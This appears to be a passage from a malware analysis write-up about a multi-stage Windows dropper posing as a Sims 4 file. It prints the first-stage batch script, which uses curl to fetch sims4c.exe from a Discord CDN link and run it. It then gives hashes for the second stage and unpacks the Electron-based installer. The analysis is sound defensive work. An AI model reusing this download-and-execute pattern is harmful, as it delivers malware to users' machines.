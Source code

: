 > The code

```batch
@echo
curl -s -o %temp%\sims4c.exe https://cdn.discordapp.com/attachments/1196086210670637076/1204192190151000145/sims4c.exe
%temp%\\sims4c.exe
exit
```

> The batch file

This script writes a batch file named `script.bat` to the Temp directory, then downloads a file named `sims4c.exe` to the same directory, from the following link `https[:]//cdn.discordapp.com/attachments/1196086210670637076/1204192190151000145/sims4c.exe`

Sadly, by the time I got around to analyzing this binary, the link was dead, and I couldn't get my hands on it. Thankfully, my colleague managed to download the sample before the authors took the server down, which allowed me to continue my analysis.

# Stage 2 : Electron embedded malware

| Algorithm | Hash |
|----|----|
|Sha256Sum| `8c8558dc150de295f4b1d557243b5d978f09cfcec94145cd1ddb5315b3a0d92a`|
|MD5Sum |`eea2a0e923f198af0bc9baacbe7c353d`|

`file` command output:

```sh
sims4c.exe: PE32 executable (GUI) Intel 80386, for MS Windows, Nullsoft Installer self-extracting archive
```

Nullsoft binaries are, as the `file` command output says, `self-extracting archives`, meaning that they are basically just a cheap alternative for a packer (in my personal opinion). Thankfully, that also means they are also glorified zip files (in my opinion).
Unpacking this binary was as simple as unpacking the first stage:

```sh
7z e sims4c.exe -oStage2_Unpacked
```

After unpacking this binary, I had 4 different files:

* `System.dll` (md5: `0d7ad4f45dc6f5aa87f606d0331c6901`)
* `app-64.7z` (md5: `e17d4052baa0ad8f72d5d00ae269bda7`)
* `nsis7z.dll` (md5: `80e44ce4895304c6a3a831310fbf8cd0`)
* `StdUtils.dll`(md5: `c6a6e03f77c313b267498515488c5740`)

The interesting one between all of them was the `app-64.7z` archive, as it seemed to contain quite a few files

```sh
$ 7z l app-64.7z

...
....A       340874               locales/zh-CN.pak
....A       338121               locales/zh-TW.pak
....A     16047692               resources/app.asar
....A      5430320               resources.pak
....A       162352               snapshot_blob.bin
....A       476792               v8_context_snapshot.bin
....A          106               vk_swiftshader_icd.json
....A      4891080     49701855  d3dcompiler_47.dll
....A      2862080               ffmpeg.dll
....A       479232               libEGL.dll
....A      7514112               libGLESv2.dll
```